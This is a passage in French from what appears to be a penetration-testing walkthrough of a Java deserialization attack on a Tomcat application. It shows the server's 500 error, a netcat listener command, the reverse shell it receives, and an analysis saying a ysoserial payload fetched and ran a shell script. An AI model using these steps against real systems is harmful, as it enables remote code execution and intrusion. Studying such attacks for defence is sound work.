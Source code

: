 **Sortie typique :**
```
HTTP/1.1 500 Internal Server Error
Content-Type: text/html;charset=utf-8
Content-Language: en
Content-Length: 1578
Date: Wed, 02 Apr 2025 19:30:00 GMT
Connection: close

<html>
  <head>
    <title>Apache Tomcat/9.0.30 - Error report</title>
    <style>
      ...
    </style>
  </head>
  <body>
    <h1>HTTP Status 500 – Internal Server Error</h1>
    <hr class="line" />
    <p><b>Type</b> Exception Report</p>
    <p><b>Message</b> java.lang.RuntimeException: Failed to process request</p>
    <p><b>Description</b> The server encountered an unexpected condition that prevented it from fulfilling the request.</p>
    <p><b>Exception</b></p>
    <pre>java.lang.RuntimeException: Failed to process request
	at com.example.vulnerableapp.ObjectServlet.doPost(ObjectServlet.java:42)
	at javax.servlet.http.HttpServlet.service(HttpServlet.java:665)
	at javax.servlet.http.HttpServlet.service(HttpServlet.java:750)
	...
</pre>
  </body>
</html>
```

**Vérification de l'exécution de la commande :**
```bash
nc -lvnp 4444
```

**Sortie typique :**
```
Listening on 0.0.0.0 4444
Connection received on 192.168.1.60 49160
bash: no job control in this shell
tomcat@vulnerable-app:~$ id
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

**Analyse :** Cette séquence de commandes exploite une vulnérabilité de désérialisation Java en utilisant l'outil ysoserial pour générer une charge utile malveillante. La charge utile est envoyée à l'application vulnérable, qui la désérialise et exécute involontairement le code malveillant. Bien que la requête génère une erreur 500, la commande a été exécutée avec succès, téléchargeant et exécutant un script shell qui établit une connexion inverse vers l'attaquant. Les vulnérabilités de désérialisation sont particulièrement dangereuses car elles permettent souvent l'exécution de code à distance.
